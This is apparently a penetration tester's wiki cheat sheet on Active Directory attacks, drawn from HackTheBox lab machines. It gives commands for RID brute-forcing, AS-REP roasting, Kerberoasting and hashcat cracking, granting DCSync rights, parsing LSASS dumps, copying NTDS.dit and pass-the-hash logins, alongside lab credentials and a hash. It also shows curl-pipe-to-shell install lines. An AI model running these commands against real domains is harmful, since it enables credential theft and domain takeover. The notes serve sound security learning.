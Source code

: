 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Initial Enumeration
**[Password Spraying via Sprayhound](https://github.com/Hackndo/sprayhound)**
  - Checks badpwdcount attribute only in the domain policy

**[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)**

**Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
```
nxc smb 10.10.10.192 -u 'guest' -p '' --rid-brute > sid.txt
cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/BLACKFIELD\\//' > users.txt
GetNPUsers.py BLACKFIELD/ -usersfile users.txt -format hashcat
hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
```

**[LDAPSearch Cheat Sheet](https://notes.benheater.com/books/active-directory/page/ldapsearch)**
```
Domain Contexts: ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts
Search Users: ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)'
```

Other resources
  - [Useful LDAP queries](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)

**[LDAP Domain Dump via Linux](https://github.com/dirkjanm/ldapdomaindump)**

Old tool however useful if Bloodhound.py isn't working as intended.

**[Integrated DNS Dump](https://github.com/dirkjanm/adidnsdump)**

Any user in Active Directory can enumerate all DNS records in the Domain or Forest DNS zones, similar to a zone transfer.

Additional Resources:
  - [ADIDNS Dump](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

**[BloodHound CE](https://github.com/SpecterOps/BloodHound)**

**Additional Resources** 
  - [BloodHound Community Edition](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose)
  - [BloodHound Cypher Cheatsheet](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)
    
```
curl -L https://ghst.ly/getbhce | docker compose -f - up
```

**[BloodHound.py for Linux](https://github.com/dirkjanm/BloodHound.py)**
```
python3 bloodhound.py -u "support" -p "#00^BlackKnight" -c ALL -d BLACKFIELD.local -ns 10.10.10.192 -dc dc01.BLACKFIELD.local
```

# Poisoning and Relay
**[Responder](https://github.com/lgandx/Responder)**
  - IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

# Active Directory Exploitation
**[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)**

**[WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)**

**[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)**

**[NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)**

**[DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)**

**With PowerView**:
```
whoami /all
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
net group "Exchange Windows Permissions" /add svc-alfresco
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
Get-DomainUser -Identity svc-alfresco
Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
```

**[SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)**

**[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)**

**Requires:** Domain Credentials

**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets containing the SPN hashes.

```
GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

## Lateral Movement
[ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

**Requires:** `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` on Object

```
net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)
```

## Credential Dumping
**[LSASS Dump - lsass.DMP](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)**

**Requires:** Credential Guard to be disabled.

```
Dumping LSASS via Linux: https://medium.com/@offsecdeer/dumping-lsass-remotely-from-linux-efc47391e56d
```

**[Pypykatz - Mimikatz for Linux](https://github.com/skelsec/pypykatz)**

**Requires:** A DMP file containing credentials extracted to our Linux machine.
```
pypykatz lsa minidump lsass.DMP
```

## Domain Escalation
**[Backup Operator - Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)**
```
whoami /all (SeBackupPrivilege Enabled)

diskshadow /s backup.txt
robocopy /b E:\Windows\ntds . ntds.dit (NTDS file)
reg save hklm\system c:\temp\system.bak (System Hive keys)

## Other Resources
https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58
```

-----------------------------------------------------------------------

## Active Directory Tools
**[NetExec](https://github.com/Pennyw0rth/NetExec)**
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh (install Rust)
source $HOME/.cargo/env
pipx install git+https://github.com/Pennyw0rth/NetExec
```

**[PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)**
```. .\powerview.ps1```

**NSE**
```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```

**SMB**
Enum4Linux
SMBMap
smbclient
smbclient.py (Impacket)
**[NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)**
**[SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)**

**WinRM**
**[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)**
```
evil-winrm -i 10.10.10.192 -u "svc_backup" -H "9658d1d1dcd9250115e2205d9f48400d"
```

**[Impacket]()**
```
python3 -m pipx install impacket
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
```

## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
 - [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
